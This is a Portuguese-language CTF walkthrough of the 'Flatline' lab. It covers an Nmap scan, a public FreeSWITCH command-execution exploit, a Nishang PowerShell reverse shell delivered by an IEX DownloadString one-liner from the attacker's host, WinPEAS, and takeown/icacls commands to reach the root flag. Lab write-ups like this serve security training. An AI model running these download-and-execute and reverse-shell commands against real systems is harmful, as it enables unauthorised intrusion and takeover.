







# _**Flatline CTF**_


## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```


Parece que temos um serviço RDP, **ms-wbt-server** na porta 3389  
Vamos utilizar novamente o Nmap para tentar encontrar vulnerabilidades  
> ```bash
> nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -Pn -T4 [ip_adress]
> ```


Apesar de termos retorno, nenhuma informação é relevante
Após buscar por CVEs e exploits disponíveis, nada foi encontrado  
Foi decidido então buscar pelo outro serviço disponível: FreeSWITCH

  

Encontramos!  
Vamos realizar download do arquivo em [exploit-db](https://www.exploit-db.com/exploits/47799)  
Copiamos o conteúdo para um arquivo _.py_ e verificamos como podemos executar  
Precisamos do endereço IP e um comando CMD, vamos testar _whoami_  

  

Funcionou!  
Vamos tentar obter um _reverse shell_  
Primeiro, vamos realizar o download de <mark>Nishang</mark> com ```sudo apt install```  
Nishang é uma coleção de scripts e payloads em PowerShell usados principalmente para _pentesting_ e _post-exploitation_ em ambientes Windows  
Agora, copiamos um dos arquivos para nosso diretório com ```cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 [current_dir]/shell.ps1```  
No código, adicionamos a seguinte linha no final: ```Invoke-PowerShellTcp -Reverse -IPAddress [ip_address] -Port [port]```  
Por fim, executamos esses comandos:
> ```bash
> nc -lnvp [port]
> python3 -m http.server
> python3 exploit.py [ip_address] "cmd /c powershell IEX (New-Object Net.WebClient).DownloadString('http://[vpn_ip_address]:8000/shell.ps1')"
> ```


Conseguimos!
## _**Escalando privilégios**_
Para escalarmos privilégios, vamos utilizar a ferramenta <mark>WinPeas</mark>  
> ```bash
> Invoke-WebRequest -Uri http://[ip_address]:8000/winPEASx64.exe -OutFile winpeas.exe
> ```
Em seguida, executamos o binário  
Verificando o resultado, temos que já somos administrador  

  

Tentando acessar o conteúdo das flags, conseguimos _user.txt_, mas não _root.txt_  
Realizando um pouco de pesquisa sobre como dar permissões em um diretório, encontramos [isso](https://stackoverflow.com/questions/2928738/how-to-grant-permission-to-users-for-a-directory-using-command-line-in-windows)  
Então, executamos ```takeown /R /F *.*``` e em seguida ```icacls "root.txt" /q /c /t /grant Users:F``` para obtermos o conteúdo da segunda flag!
